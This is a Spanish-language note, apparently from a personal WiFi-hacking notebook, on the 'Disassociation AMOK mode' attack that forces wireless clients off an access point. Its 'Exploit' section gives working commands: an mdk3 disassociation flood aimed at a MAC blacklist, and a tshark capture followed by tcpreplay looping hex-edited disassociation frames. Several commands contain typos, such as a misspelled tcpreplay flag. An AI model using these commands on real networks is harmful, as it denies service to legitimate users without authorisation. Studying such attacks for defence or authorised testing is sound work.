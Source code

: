 # DISASSOCIATION AMOK MODE

El ataque **Disassociation AMOK mode** o *Desasociación AMOK mode* explota una vulnerabilidad en el protoclo de autenticación y asociación del AP. Durante el proceso de conexión, el cliente envía un paquete de asociación al AP solicitando la conexión, y el AP responde con una confirmación. Este ataque consiste en enviar una gran cantidad de paquetese de desasociación falsificados a los clientes, forzándolos a desconectarse y generando tráfico execesivo en la red. Esto puede sobrecargar tanto a los clientes como al AP, provocando desconexiones frecuentes de los clientes legítimos.

---
# Exploit 

Como vimos en la fase de [[0. Hacking WiFi#Pre-Explotación]], es necesario llevar a cabo ciertas configuraciones previas para poner nuestra interfaz en modo monitor, matar ciertos procesos, etc. En este caso podríamos hacer uso de la herramienta `mdk3` para utilizar la funcionalidad de emisión de tramás de desasociación o, también podríamos hacer uso de herramientas como `tshark` / `wireshark` y `tcpreplay`.
###### Using `mdk3`

Lo primero que tenemos que hacer es crear una **blacklist** (Lista de clientes a desasociar) o **whitelist** (Lista de direcciones mac permitidas).

```bash
echo '00:11:22:33:44:55' > blacklist.txt
```

Una vez creada la list, podríamos hacer uso de la herramienta `mkd3` para enviar tramas de desasociación a los clientes de, en este ejemplo, la **blackslit**.

```bash
sudo mdk3 {interface} d -w blacklist.txt -c {channel}
```
###### Using `tshark` and `tcpreplay`

Lo primero que tenemos que hacer es capturar el tráfico de red para obtener tramas de desasociación.

```bash
sudo tshark -i {interface} -Y "wlan.fc.type_subtype == 0xA" -w {capture}.cap
```

En caso de querer hacer uso de `wireshark`, podríamos usar el filtro de visualización `wlan.fc.type_subtype == 0xA`. 

Nuevamente, similar al ataque [[Bandwidth Hijacking#Editing package]], haremos uso de la herramienta `ghex` o cualquier editor hexadecimal para modificar las tramas de desasociación a gusto.

Tras la edición de estas tramas, haremos uso de `tcpreplay` para enviar repetidamente las tramas de desasociación modificadas.

```bash
sudo tcpreplay --intf1={interface} --topseepd --loop=2000 {deauth_modified_package}.pcap
```